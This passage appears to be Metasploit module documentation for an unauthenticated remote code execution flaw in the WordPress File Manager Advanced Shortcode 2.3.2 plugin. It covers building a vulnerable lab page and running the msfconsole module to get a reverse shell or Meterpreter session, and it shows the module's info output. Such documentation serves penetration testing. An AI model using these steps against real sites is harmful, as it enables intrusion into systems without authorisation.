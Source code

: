 Now activate the plugins and create the vulnerable Wordpress page.
1. Login as the previously created Wordpress account
2. On left side menu, then go to `Plugins`
3. Activate the File Manager Advanced plugin
4. Activate the File Manager Advanced Shortcode plugin
5. Navigate to `Pages` on the left side menu and select `Add New`
6. Click the `+` symbol in the top left of the webpage and search for `Shortcode`
7. Select `Shortcode` and paste the follow Shortcode:
    ```
    [file_manager_advanced login="yes" roles="author,editor,administrator" path="wp-content" hide="plugins" operations="download,upload"
     block_users="5" view="grid" theme="light" lang ="en" upload_allow="image/png" upload_max_size="2G"]
    ```
8. Set the `TARGETURI` option with the uripath pointing to this webpage e.g. `/?page_id=5`
9. Run the module and enjoy a `reverse shell` or `meterpreter`

## Verification Steps

List the steps needed to make sure this thing works

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper, 3=Windows Command, 4=Windows Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

```
msf exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > info

       Name: Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
     Module: exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce
   Platform: Windows, Unix, Linux, PHP
       Arch: cmd, php, x64, x86, aarch64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-05-31

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Mateus Machado Tesser

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper
      3   Windows Command
      4   Windows Dropper
```